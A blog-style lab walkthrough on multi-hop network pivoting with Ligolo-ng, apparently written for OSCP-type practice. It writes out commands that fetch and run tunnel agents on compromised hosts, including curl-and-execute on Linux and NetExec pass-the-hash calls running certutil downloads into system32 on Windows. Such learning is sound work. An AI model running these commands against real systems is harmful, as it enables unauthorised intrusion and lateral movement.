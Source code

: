 ```yaml
---
title: "Ligolo-ng Multi-Pivot - My methods"
date: 2024-06-27T00:00:30-06:00
categories:
  - blog
tags:
  - Networking
  - Pivoting
  - Routing
  - Ligolo
  - OSCP
---
```


There are plenty of articles, blogs, and how-tos out there that show how to use Ligolo-ng to tunnel your traffic through dispersed networks. I used many of them myself to learn how to use Ligolo-ng. I am sure there are some that explain even what I will today, but when I looked quickly, I didn't see one, and I need to create content, so this was born.

My hope for this post is to present some techniques to implement Ligolo-ng that may be helpful. It may be more appropriate to name this something like "Pivoting with Ligolo-ng - My Methods." I am going to focus this methodology on a single scenario: the multi-pivot, but with a bit of a twist. The final pivot will not route to a different subnet, only to a portion of an existing subnet unavailable to me from the previous pivot. I believe this will allow me to show enough content to make this blog post worth reading.

Let's dive into the scenario and the steps to achieve this unique pivoting method with Ligolo-ng.
(I will be redacting information that would identify the lab i am using. I don't know if it is neccesary but best to be safe.)

## Toolset
- Ligolo-ng - [nicocha30/ligolo-ng: An advanced, yet simple, tunneling/pivoting tool that uses a TUN interface. (github.com)](https://github.com/Nicocha30/ligolo-ng)
- Net-Exec  - [Pennyw0rth/NetExec: The Network Execution Tool (github.com)](https://github.com/Pennyw0rth/NetExec)

## Preparation
I am going to get some preparation out of the way now in order to keep this as organized as possible, for you and for me.  TUN interfaces are used to route traffic between the ligolo server and agents.  These don't exist so we must create them.  

### Create TUN Interfaces
The below commands will create three TUN interfaces for my user, `kali`.`
```bash
sudo ip tuntap add user kali mode tun ligolo1
sudo ip link set ligolo1 up

sudo ip tuntap add user kali mode tun ligolo2
sudo ip link set ligolo2 up

sudo ip tuntap add user kali mode tun ligolo3
sudo ip link set ligolo3 up
```

![](/_posts/res/ligolopivoting/Pasted image 20240627051159.png?raw=true)
*Three ligolo TUN interfaces, my existing VPN connection, and my virtual ethernet.*

### My Terminals
Maybe not what you have come here for exactly but this post is about how I implement ligolo and  staying organized is a big part of it for me. That said, i use `Terminator` for my terminals.  It has some features that i use alot, but that may be another blog one day.  For today we will just focus on how it helps with ligolo.  When doing labs and CTF work i have many tabs open at once, and try to utilize them only for they are mean to be used for.  My ligolo tab houses any terminal window used to manage TUN interfaces.  Mainly, ligolo proxy and a terminal per ligolo agent.  Makes it super easy to bring them all back up if something fails.  Let's start ligolo and see what our space looks like.
![](/_posts/res/ligolopivoting/Pasted image 20240627052707.png?raw=true)
*Ligolo started from our `loadables` (This is the web server root) directory*

## Initiate first pivot
The first pivot in this lab happens on a linux machine.  I will SSH in, grab our ligolo linux agent and connect it to our ligolo proxy.

```bash
curl http://10.10.15.252:8000/tools/ligolo/ligolo-ng_agent_linux_amd64/agent -0 -o /tmp/agent ; chmod +x /tmp/agent

/tmp/agent -connect 10.10.15.252:11601 -ignore-cert
```
*Connect back to our VPN address and ignore the cert warning since we are using a self signed cert. The autocert feature is pretty easy to use but i just dont bother in the labs.*

With the agent connected we can start the tunnel.  We will use our first TUN interface for this.

![](/_posts/res/ligolopivoting/Pasted image 20240627064200.png?raw=true)
*Selected the session. Started the tunnel on ligolo1 TUN interface.*

Now all that is left for the first pivot is to add a route table entry on our attack machine.  The internal network on this lab is 172.16.1.0/24.

```bash
sudo ip route add 172.16.1.0/24 dev ligolo1
```
![](/_posts/res/ligolopivoting/Pasted image 20240627055507.png?raw=true)

Thats pivot one. Lets move on.

## Initiate second pivot
The second pivot is a standard pivot that will give us access to a new subnet 172.16.2.0/24.  Now even though this pivot host can route back to our attack host i will be using a listener on our first agent to forward the traffic anyway. I do this for two reasons. 1) it helps my brain to have a standard way of doing things.  2) From MY limited experience to this point... it seems more stable.

To setup the listener we will make sure the first session is selected (I know we only have one session currently so this may not make sense, but if you ever add a listener on the wrong session in ligolo you may find out the hard way that you should have done this bit of due diligence in the first place.), and then issue the `listener_add` command in ligolo. 

```bash
listener_add --addr 0.0.0.0:443 --to 127.0.0.1:11601
```
![](/_posts/res/ligolopivoting/Pasted image 20240627064457.png?raw=true)
- --addr 0.0.0.0:443 sets up the listener interface and port on our pivot host
	- Using the all interfaces 0.0.0.0 is kind of lazy. this first pivot host does have multiple ips and we only really need this to run on one but .... meh. I may show a good reason later for this to be the internal address
- --to defines where the traffic destined for 443 on 0.0.0.0 will be sent to 
	- because this is the first pivot 127.0.0.1 actually means to send it to our attack host.  This could most likely be interchanged with our VPN address making it more clear. but... meh

With that out of the way, let's get our ligolo agent on this Windows box and connect it back to our listener.  Using Net-Connect is my preferred way of handling this, as i imagine it is alot of yours as well. 

```bash
nxc smb 172.16.1.254 -u user -H hash -x 'certutil -f -urlcache http://10.10.15.252:8000/tools/ligolo/ligolo-ng_agent_windows_amd64/agent.exe c:\windows\system32\agent.exe'
```
![](/_posts/res/ligolopivoting/Pasted image 20240627062722.png?raw=true)

```bash
nxc smb 172.16.1.254 -u user -H hash -x 'c:\windows\system32\agent.exe -connect 172.16.1.23:443 -ignore-cert'
```

Now we select the session and start it on the ligolo2 TUN.
![](/_posts/res/ligolopivoting/Pasted image 20240627063703.png?raw=true)

I know that a portion of that subnet is not available from this pivot host.  I will act like i don't know that and then we will fix the routing later. 
![](/_posts/res/ligolopivoting/Pasted image 20240627063949.png?raw=true)

## Initiate third pivot
So we are already routing 172.16.2.0/24 over ligolo2 and this pivot is going to be a pivot to that same range but only available from this pivot host.  i want to maintain the integrity of my forwarding chain while still making it to this section of the network. 

Let's limit our routing to ligolo2 to only include our pivot host.
```bash
# Add an entry for 2.102 to route tthrough ligolo2
sudo ip route add 172.16.2.102/32 dev ligolo2
# Remove subnet route
sudo ip route del 172.16.2.0/24
```
![](/_posts/res/ligolopivoting/Pasted image 20240627065656.png?raw=true)

Now let's prepare a listener on our second pivot host session to connect this third pivot agent to. (I know. I'm sorry.)
```bash
listener_add --addr 0.0.0.0:443 --to 172.16.1.23:443
```

Now we can connect our agent to our new listener. we will use the same Net-Exec command to download the agent and run it on this windows host as we did on the last except this time we will connect to our new listener.
```bash
-x 'certutil -f -urlcache http://10.10.15.252:8000/tools/ligolo/ligolo-ng_agent_windows_amd64/agent.exe c:\windows\system32\agent.exe'

-x 'c:\windows\system32\agent.exe -connect 172.16.1.5:443 -ignore-cert'
```

Once it connects, we will select the session and start the tunnel on the ligolo3 TUN interface.
```bash
start --tun ligolo3
```

Because I know what host is behind ligolo3 I can just add a host route (/32) to the table to reach it. But we will leave some more discussion about this for the closing thoughts. Let's add the host route and call it mission accomplished.

```bash
sudo ip route add 172.16.2.12/32 dev ligolo3
```
![](/_posts/res/ligolopivoting/Pasted image 20240627071910.png?raw=true)

## Closing Thoughts
- Had i used specific IPs when setting up the listeners instead of 0.0.0.0 then when issuing the listener_list command in ligolo it would be easier to follow the trail
- If at any pivot point a network could not route to my VPN network or any upstream network in the forwarding chain i would have needed to add a port forward for my web server.  I like to try and use all the same ports where possible so in my case i would have added listeners to forward out port 8000 through the chain.
- Net-Exec isn't the only way to do download and start the agents but i find when possible it just makes life easier.
- This routing method could become tedious. :/
